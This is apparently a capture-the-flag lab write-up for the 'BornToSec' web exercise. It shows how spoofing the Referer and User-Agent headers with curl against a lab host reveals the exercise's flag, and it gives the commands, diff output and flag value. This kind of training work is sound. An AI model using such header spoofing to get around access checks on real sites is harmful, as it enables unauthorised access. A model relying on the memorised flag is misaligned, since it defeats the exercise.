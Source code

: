# 06_spoof_curl

Manipulation of HTTP headers

## Method

From the site index, click on the 'BornToSec' link at the bottom of the page.

- By inspecting the HTML code of the page,
We notice that the html source has lots of comments,

there's an entire article written there.

But there's one important line that says:

```

<!--
You must cumming from : "https://www.nsa.gov/" to go to the next step
-->

```

- We deduce that the header must be modified before sending the request to the page, in this case the 'Referer' and 'User-Agent' fields.

normally the browser sets this field to the previous address visited,
but we can be spoof it to be the one we want

Open terminal and type the following instructions:

```

kmatjeke% curl 'http://192.168.1.102/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' -s -o before.html
kmatjeke% curl 'http://192.168.1.102/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' -H "Referer: https://www.nsa.gov/" -s -o after.html 
kmatjeke% diff before.html after.html 
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">

```

Notice that it says first step done. Which means we're on the right track

Another important line/comment we notice in the pages inspect article is:

```

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->

```

Which must refer to the User-Agent http request header(found after lots and lots of research)
let's spoof it and see what happens, we just need to append -H "User-Agent: ft_bornToSec" to our curl command

```

kmatjeke% curl 'http://192.168.1.102/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" -s -o ftbts.html
kmatjeke% diff before.html ftbts.html 
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
kmatjeke% 

```

We get the flag:    f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
